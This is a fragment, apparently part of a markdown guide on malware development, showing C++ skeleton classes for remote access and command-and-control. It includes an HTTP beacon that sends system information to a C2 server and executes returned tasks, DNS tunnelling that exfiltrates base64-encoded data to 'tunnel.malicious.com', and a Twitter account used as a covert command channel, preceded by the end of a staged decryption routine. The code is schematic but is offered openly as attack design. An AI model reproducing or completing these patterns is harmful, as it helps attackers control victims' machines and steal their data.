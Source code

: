 ```cpp
        // Stage 3: AES
        // ... AES decryption
    }
};
```

---

## 🌐 **Remote Access & C2**

### **1. Command & Control Channels**
```cpp
// HTTP/HTTPS Communication
class HTTPBeacon {
private:
    std::string c2Server = "https://legitimate-looking-site.com";
    
public:
    void sendBeacon() {
        // Send system info to C2
        std::string data = getSystemInfo();
        httpPost(c2Server + "/api/status", data);
    }
    
    void getCommands() {
        // Receive commands from C2
        std::string response = httpGet(c2Server + "/api/tasks");
        executeCommands(response);
    }
};

// DNS Tunneling
class DNSTunnel {
public:
    void exfiltrateData(const std::string& data) {
        // Encode data in DNS queries
        std::string encoded = base64Encode(data);
        std::string query = encoded + ".tunnel.malicious.com";
        // Send DNS query...
    }
};

// Social Media C2
class TwitterC2 {
public:
    void getCommands() {
        // Check specific Twitter account for encoded commands
        std::string tweet = getLatestTweet("@innocuous_account");
        std::string command = decodeFromTweet(tweet);
        executeCommand(command);
    }
};
```
